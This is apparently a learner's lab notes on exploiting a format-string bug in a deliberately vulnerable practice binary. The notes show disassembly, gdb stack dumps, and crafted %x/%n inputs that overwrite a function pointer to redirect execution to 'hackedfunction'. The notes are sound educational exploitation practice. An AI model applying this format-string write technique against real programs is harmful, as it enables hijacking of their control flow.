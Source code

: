 ```asmatmel
   0x08049263 <+93>:	call   0x8049040 <printf@plt>
   0x08049268 <+98>:	add    $0xc,%esp
   0x0804926b <+101>:	push   $0x804a050
   0x08049270 <+106>:	call   0x8049080 <puts@plt>
   0x08049275 <+111>:	add    $0x4,%esp
   0x08049278 <+114>:	push   $0x2
   0x0804927a <+116>:	call   0x8049060 <sleep@plt>
   0x0804927f <+121>:	add    $0x4,%esp
   0x08049282 <+124>:	movl   $0x80492ea,-0x84(%ebp)
   0x0804928c <+134>:	push   0x8(%ebp)
   0x0804928f <+137>:	push   $0x80
   0x08049294 <+142>:	lea    -0x80(%ebp),%eax
   0x08049297 <+145>:	push   %eax
   0x08049298 <+146>:	call   0x80490e0 <snprintf@plt>
   0x0804929d <+151>:	add    $0xc,%esp                        <<<<<<<< breakpoint
   0x080492a0 <+154>:	mov    -0x84(%ebp),%eax
   0x080492a6 <+160>:	call   *%eax
   0x080492a8 <+162>:	leave
   0x080492a9 <+163>:	ret
```

```
# add breakpoint
(gdb) break *vuln+151
Breakpoint 1 at 0x804929d

(gdb) run "AAAA"
(gdb) x/20wx $esp
0xffffd29c:	0xffffd2ac	0x00000080	0xffffd57e	0x080492ea
0xffffd2ac:	0x41414141	0x00000000	0x00000000	0x00000000
0xffffd2bc:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd2cc:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd2dc:	0x00000000	0x00000000	0x00000000	0x00000000

# "AAAA" at 0xffffd2ac ,let experiment with this 0xffffd2cc (\xcc\d2\xff\ff), %x hex value %n count of the no of char
(gdb) run $(echo -e "\xcc\d2\xff\ff")%x%n
(gdb) x/20wx $esp
0xffffd29c:	0xffffd2ac	0x00000080	0xffffd57a	0x080492ea
0xffffd2ac:	0xffffd2cc	0x39343038	0x00616532	0x00000000
0xffffd2bc:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd2cc:	0x0000000b	0x00000000	0x00000000	0x00000000
0xffffd2dc:	0x00000000	0x00000000	0x00000000	0x0000000

# at 0xffffd2cc  0x0000000b , it changing let give hackedfunc() hex 0x804930f
# change hex to demical
$ echo $((0x804930f))
134517519

(gdb) run $(echo -e "\xcc\xd2\xff\xff")%134517519x%n
goodfunction() = 0x80492ea
hackedfunction() = 0x804930f

before : ptrf() = 0x80492ea (0xffffd2a8)                <<<<<<<<<<<<< get acutal pointer
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x0804929d in vuln ()

(gdb) x/20wx $esp
0xffffd29c:	0xffffd2ac	0x00000080	0xffffd571	0x080492ea
0xffffd2ac:	0xffffd2cc	0x20202020	0x20202020	0x20202020
0xffffd2bc:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd2cc:	0x08049313	0x20202020	0x20202020	0x20202020
0xffffd2dc:	0x20202020	0x20202020	0x20202020	0x20202020
```